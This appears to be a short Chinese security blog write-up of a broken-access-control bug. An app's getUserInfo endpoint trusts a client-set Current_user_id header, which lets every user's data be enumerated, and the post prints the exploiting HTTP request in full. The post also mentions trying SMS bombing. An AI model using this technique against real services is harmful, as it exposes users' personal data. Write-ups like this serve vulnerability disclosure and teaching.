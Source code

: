 #  记一次越权漏洞   
 sec0nd安全   2025-04-30 11:23  
  
开局一个手机号登陆出，没别的功能。提取接口都有鉴权。  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/9vaSeXkcPUSVibI2v69hCXjzS6lict5yhJlZFBZJBHmlxibicsCjgjl7D2920AlosLuN4RJH2YYrBOn5NuXbQRsDXw/640?wx_fmt=png&from=appmsg "")  
测试短信轰炸，验证码复用，绑定漏洞也不行。但是用自己手机号登录后有一个接口有点奇怪，测了下可以遍历全站所有用户的信息，是用Current_user_id做用户权限校验的，上面的usserId是个幌子。```
GET /api/user/getUserInfo?userId=64370 HTTP/1.1
Host: :8085
Sec-Ch-Ua-Platform: "Windows"
Current_user_id: 64371
Sec-Ch-Ua: "Google Chrome";v="135", "Not-A.Brand";v="8", "Chromium";v="135"
Sec-Ch-Ua-Mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/135.0.0.0 Safari/537.36
Accept: application/json, text/plain, */*
Userapi-Validate-Appid: jtpt03
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Priority: u=1, i
Connection: keep-alive
```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/9vaSeXkcPUSVibI2v69hCXjzS6lict5yhJbH0QsTPt5x6u12LPzkssbS2aNK5Xu3pmiaI1V0b8ibDOEk0c1wricBJvA/640?wx_fmt=png&from=appmsg "")  
  
  
